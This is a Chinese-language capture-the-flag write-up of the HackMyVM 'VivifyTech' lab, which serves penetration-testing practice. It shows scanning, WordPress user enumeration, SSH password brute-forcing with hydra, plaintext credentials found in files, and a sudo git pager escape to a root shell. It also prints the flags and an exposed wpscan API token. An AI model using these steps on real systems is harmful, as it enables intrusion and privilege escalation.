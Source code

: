 > ⏲️ Release Date // 2023-12-28
>
> ✔️ MD5 // d8d796aa8ac7998128f555f3c61360a5
>
> ☠ Root // 115
>
> 💀 User // 112

### 主机探测和nmap扫描

主机探测

```bash
nmap -sn 192.168.56.0/24
```

全端口扫描

```bash
nmap -sT --min-rate 10000 -p- 192.168.56.126
```

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
33060/tcp open  mysqlx
```

指定端口扫描（详细扫描）

```bash
nmap -sT -sV -sC -O -p22,80,3306,33060 192.168.56.126
```

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 32:f3:f6:36:95:12:c8:18:f3:ad:b8:0f:04:4d:73:2f (ECDSA)
|_  256 1d:ec:9c:6e:3c:cf:83:f6:f0:45:22:58:13:2f:d3:9e (ED25519)
80/tcp    open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
3306/tcp  open  mysql   MySQL (unauthorized)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
```

### web渗透

访问web页面

![image-20240527210403589](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240527210403589.png)



apache默认页面

#### 目录扫描

```bash
gobuster dir -u http://192.168.56.126 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

扫到

```
/wordpress            (Status: 301) [Size: 320] [--> http://192.168.56.126/wordpress/]
/server-status        (Status: 403) [Size: 279]
```

![image-20240527210600845](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240527210600845.png)



wordpress 6.4.1没啥利用的漏洞

#### 利用wpscan

```bash
wpscan --url http://192.168.56.126/wordpress/ --api-token aSaeIFrptoJuKIRRxPteXnJo7lZU8eDtJEKXxMV1RAw -e u
```

枚举一下用户

> [+] sancelisso

#### dirb目录扫描

```bash
dirb http://192.168.56.126 /usr/share/seclists/Discovery/Web-Content/common.txt
```

![image-20240527212218911](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240527212218911.png)

#### feroxbuster目录扫描

```bash
feroxbuster -u http://192.168.56.126 -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 5 --filter-status 404,403
```

![](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240527212131611.png)

wp-admin后台登录页面，没有弱密码

查看wp-includes目录

发现一个文件

http://192.168.56.126/wordpress/wp-includes/secrets.txt

```
agonglo
tegbesou
paparazzi
womenintech
Password123
```

应该是密码

尝试后台爆破登录

```bash
wpscan --url http://192.168.56.126/wordpress/ -U sancelisso -P pass
```

没有啥东西

尝试寻找更多信息

找到这篇文章

![image-20240527212655875](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240527212655875.png)

找到几个人名

> sarah
> mark
> emily
> jake
> alex

再次尝试登录后台

```bash
wpscan --url http://192.168.56.126/wordpress/ -U user -P pass
```

依旧没有结果

### 登录SSH服务

登录后台没结果，那就尝试ssh

```bash
hydra -L user -P pass ssh://192.168.56.126
```

```
[22][ssh] host: 192.168.56.126   login: sarah   password: bohicon
```

拿到一组凭据

> sarah:bohicon

```bash
sarah@VivifyTech:~$ ls -la
total 36
drwx------ 4 sarah sarah 4096 May 27 08:56 .
drwxr-xr-x 6 root  root  4096 Dec  5 16:00 ..
-rw------- 1 sarah sarah    0 Dec  5 17:53 .bash_history
-rw-r--r-- 1 sarah sarah  245 Dec  5 17:33 .bash_logout
-rw-r--r-- 1 sarah sarah 3565 Dec  5 17:48 .bashrc
-rw------- 1 sarah sarah    0 May 27 08:56 .history
drwxr-xr-x 3 sarah sarah 4096 Dec  5 16:19 .local
-rw------- 1 sarah sarah  104 May 27 08:32 .mysql_history
drwxr-xr-x 2 sarah sarah 4096 Dec  5 16:19 .private
-rw-r--r-- 1 sarah sarah  807 Dec  5 15:57 .profile
-rw-r--r-- 1 sarah sarah   27 Dec  5 16:22 user.txt
sarah@VivifyTech:~$ cat user.txt 
HMV{Y0u_G07_Th15_0ne_6543}
sarah@VivifyTech:~$ cd .private/
sarah@VivifyTech:~/.private$ ls
Tasks.txt
sarah@VivifyTech:~/.private$ cat Tasks.txt 
- Change the Design and architecture of the website
- Plan for an audit, it seems like our website is vulnerable
- Remind the team we need to schedule a party before going to holidays
- Give this cred to the new intern for some tasks assigned to him - gbodja:4Tch055ouy370N
```

又拿到另一凭据

> gbodja:4Tch055ouy370N

### 提权

git提权

利用git的diff工具，查看root.txt(盲猜)

```bash
gbodja@VivifyTech:~$ sudo -l
Matching Defaults entries for gbodja on VivifyTech:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !admin_flag, use_pty

User gbodja may run the following commands on VivifyTech:
    (ALL) NOPASSWD: /usr/bin/git
gbodja@VivifyTech:~$ sudo git diff /dev/null /root/root.txt
diff --git a/root/root.txt b/root/root.txt
new file mode 100644
index 0000000..9b04236
--- /dev/null
+++ b/root/root.txt
@@ -0,0 +1 @@
+HMV{Y4NV!7Ch3N1N_Y0u_4r3_7h3_R007_8672}
```

利用git提权的root

![image-20240527213811011](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240527213811011.png)

```bash
sudo git -p help config
```

之后输入`!/bin/bash`

![image-20240527213930747](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240527213930747.png)

```
HMV{Y4NV!7Ch3N1N_Y0u_4r3_7h3_R007_8672}
```

拿到root.txt